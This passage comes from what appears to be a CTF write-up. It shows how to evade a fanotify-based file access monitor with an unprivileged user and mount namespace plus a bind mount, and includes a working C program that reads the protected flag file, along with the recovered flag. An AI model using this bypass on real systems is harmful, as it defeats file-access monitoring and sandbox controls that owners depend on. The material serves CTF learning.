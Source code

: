 Luckily, the man page has the answer for us:

```
Bugs:
[ ... ]
       As of Linux 3.17, the following bugs exist:

       *  On Linux, a filesystem object may be accessible through
          multiple paths, for example, a part of a filesystem may be
          remounted using the --bind option of mount(8).  A listener
          that marked a mount will be notified only of events that were
          triggered for a filesystem object using the same mount.  Any
          other event will pass unnoticed.
```

We can simply perform a bind mount, and accesses to the file through it will not trigger the `fanotify` listener. Mounting requires `CAP_SYS_ADMIN`, but the kernel has unprivileged user namespaces available.

We can use this to enter a new mount namespace, bind mount `/playground` to a controlled directory, and read the content of the flag:

```c
#define _GNU_SOURCE
#include <sched.h>
#include <fcntl.h>
#include <stdlib.h>
#include <sys/mount.h>
#include <unistd.h>
#include <stdio.h>

int main() {
    if (unshare(CLONE_NEWUSER|CLONE_NEWNS)) {
        perror("unshare");
        exit(0);
    };
    mkdir("/tmp/mount");
    if (mount("/playground", "/tmp/mount", NULL, MS_BIND, NULL)) {
        perror("mount");
        exit(0);
    }
    int fd = open("/tmp/mount/flag.txt", O_RDONLY);
    if (fd == -1) {perror("Opening"); exit(0);}
    char buf[100];
    int res = read(fd, buf, 100);
    buf[res] = 0;
    puts(buf);
}
```
After uploading this on the remote instance, we get the flag printed out:

`zer0pts{FANOTIFY_d03snt_w0rk_b3tw33n_d1ff3r3nt_n4m3sp4c3s...}`

# readflag
* Category: `Misc`
* Solves: `10`
* Points: `277`
* Description: `All you need is strings.`
